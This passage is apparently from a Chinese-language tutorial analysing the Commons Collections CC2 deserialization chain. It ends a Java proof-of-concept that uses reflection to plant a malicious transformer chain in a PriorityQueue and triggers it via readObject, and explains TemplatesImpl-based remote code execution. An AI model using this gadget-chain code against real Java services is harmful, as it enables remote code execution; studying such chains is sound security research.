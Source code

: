 ```java
        queue.add(1);
        queue.add(2);
        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue, comparator);


        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(fakeChain, realPoc);

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(queue);
        oos.close();

        System.out.println(bos);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();
    }
}
```

CC2 其实核心命令执行的方式不是靠的 ChainedTransformer 与 InvokerTransformer 等结合的方式。它变为了使用 TemplatesImpl 这个类来调用，也就是前文 basics 的内容

前文我们利用 `TemplatesImpl#newTransformer` 结合 javassist 实现了一个 RCE demo

接下来我们的任务是如何调用 `TemplatesImpl#newTransformer` 以及如何与readObject 结合

回顾 InvokerTransformer，调用其 transform 方法，如果可控  transform 方法中参数，以及 `this.iMethodName` 即可调用任意类的任意方法

![](Commons-Collections-反序列化利用链分析/image-20210213141618580.png)
